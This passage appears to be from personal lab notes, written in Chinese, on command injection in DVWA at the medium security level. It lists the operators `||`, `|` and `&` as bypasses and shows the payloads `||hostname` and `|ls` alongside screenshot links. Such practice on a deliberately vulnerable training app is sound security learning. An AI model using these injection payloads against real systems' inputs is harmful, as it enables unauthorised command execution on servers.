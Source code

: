 多試幾次後，運氣好猜中， `||` , `|`, `&`  

### or

```bash
||hostname
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%206.png)

### pipeline

```bash
|ls
```

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%207.png)
